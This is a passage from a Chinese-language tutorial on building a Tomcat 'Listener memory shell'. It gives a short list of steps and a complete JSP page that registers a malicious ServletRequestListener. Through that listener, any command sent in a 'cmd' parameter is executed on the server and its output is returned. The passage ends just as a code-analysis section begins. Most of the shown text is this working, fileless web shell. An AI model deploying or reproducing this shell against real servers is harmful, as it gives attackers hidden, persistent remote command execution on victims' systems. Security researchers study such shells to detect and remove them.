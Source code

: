 #### 简单的Listener内存马编写  
- 继承并编写一个恶意`Listener`  
- 获取`StandardContext`  
- 调用`StandardContext.addAPplicationEventListener()`并添加恶意`Listener`  
```java  
&lt;%@ page import=&#34;java.io.InputStream&#34; %&gt;  
&lt;%@ page import=&#34;java.util.Scanner&#34; %&gt;  
&lt;%@ page import=&#34;java.lang.reflect.Field&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.connector.Request&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.StandardContext&#34; %&gt;&lt;%--  
  Created by IntelliJ IDEA.  
  User: f10wers13eicheng  
  Date: 2025/1/31  
  Time: 下午8:33  
  To change this template use File | Settings | File Templates.  
--%&gt;  
&lt;%@ page contentType=&#34;text/html;charset=UTF-8&#34; language=&#34;java&#34; %&gt;  
&lt;html&gt;  
&lt;head&gt;  
    &lt;title&gt;Title&lt;/title&gt;  
&lt;/head&gt;  
&lt;body&gt;  
&lt;%!  
    public class EvilListener implements ServletRequestListener {  
        public void requestDestroyed(ServletRequestEvent sre) {  
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();  
            if (req.getParameter(&#34;cmd&#34;) != null){  
                InputStream in = null;  
                try {  
                    in = Runtime.getRuntime().exec(req.getParameter(&#34;cmd&#34;)).getInputStream();  
                    Scanner s = new Scanner(in, &#34;GBK&#34;).useDelimiter(&#34;\\A&#34;);  
                    String out = s.hasNext()?s.next():&#34;&#34;;  
                    Field requestF = req.getClass().getDeclaredField(&#34;request&#34;);  
                    requestF.setAccessible(true);  
                    Request request = (Request)requestF.get(req);  
                    request.getResponse().setCharacterEncoding(&#34;GBK&#34;);  
                    request.getResponse().getWriter().write(out);  
                }  
                catch (Exception ignored) {}  
            }  
        }  
        public void requestInitialized(ServletRequestEvent sre) {}  
    }  
%&gt;  
&lt;%  
    Field reqF = request.getClass().getDeclaredField(&#34;request&#34;);  
    reqF.setAccessible(true);  
    Request req = (Request)reqF.get(request);  
    StandardContext context = (StandardContext) req.getContext();  
    EvilListener evilListener = new EvilListener();  
    context.addApplicationEventListener(evilListener);  
    out.println(&#34;[&#43;]&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;Inject Listener Memory Shell successfully!&lt;br&gt;[&#43;]&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;Shell url: http://localhost:8088/?cmd=whoami&#34;);  
%&gt;  
&lt;/body&gt;  
&lt;/html&gt;  
```  
#### Listener内存马代码分析  
```java  
Field reqF = request.getClass().getDeclaredField(&#34;request&#34;);  
reqF.setAccessible(true);  
```